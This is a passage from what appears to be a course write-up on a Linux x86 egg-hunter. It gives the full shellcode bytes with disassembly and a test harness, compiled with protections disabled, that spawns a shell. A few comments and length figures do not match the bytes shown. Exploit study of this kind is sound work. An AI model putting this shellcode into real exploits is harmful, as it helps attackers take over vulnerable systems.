 The test program can be found <a href="https://github.com/skahwah/slae/blob/master/assignment3/egghunter-test.c">here</a>.

Execution of the egg hunter can be examined in `gdb` after linking, assembling and extracting the opcodes from the egg hunter and placing them into the test program is done.

Before this examining the egg hunter in `gdb`, it is a good idea to test if the program executes as expected.

```shell
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ ls
compile.sh  egghunter.nasm  shellcode.c
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ ./compile.sh egghunter
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\xfc\x31\xc0\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\xb8\x21\x00\x00\x00\xcd\x80\x3c\xf2\x74\xec\xb8\x4b\x53\x4b\x53\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ vim shellcode.c
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ cat shellcode.c | grep "hunter\[\]" -A 18
unsigned char egg_hunter[] = \
                              "\xfc"	   	           	// cld
                              "\x31\xc0"	           	// xor eax,eax
                              "\x31\xd2"          		// xor ebx,ebx
                              "\x66\x81\xca\xff\x0f"	// or dx,0xfff
                              "\x42"		            	// inc edx
                              "\x8d\x5a\x04"       		// lea ebx,[edx+0x4]
                              "\xb8\x21\x00\x00\x00"	// mov eax,0x21
                              "\xcd\x80"		          // int 0x80
                              "\x3c\xf2"		          // cmp al,0xf2
                              "\x74\xec"		          // je next_page
                              "\xb8" EGG		          // mov EGG
                              "\x89\xd7"		          // mov edi,edx
                              "\xaf"			            // scasd
                              "\x75\xe7"		          // jne increment_address
                              "\xaf"			            // scasd
                              "\x75\xe4"		          // jne increment_address
                              "\xff\xe7";		          // jmp edi

skawa@ubuntu:~/Desktop/code/assignment/assignment3$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
skawa@ubuntu:~/Desktop/code/assignment/assignment3$ ./shellcode
[+] Searching for: KSKS
[+] Egg Hunter Length: 16
[+] Shellcode Length: 33
$ exit
skawa@ubuntu:~/Desktop/code/assignment/assignment3$
```

### Stepping through the execution
A hook-stop has been defined to keep an eye on the state of the different general purpose registers, eflags as well as the contents of the `EDI` register
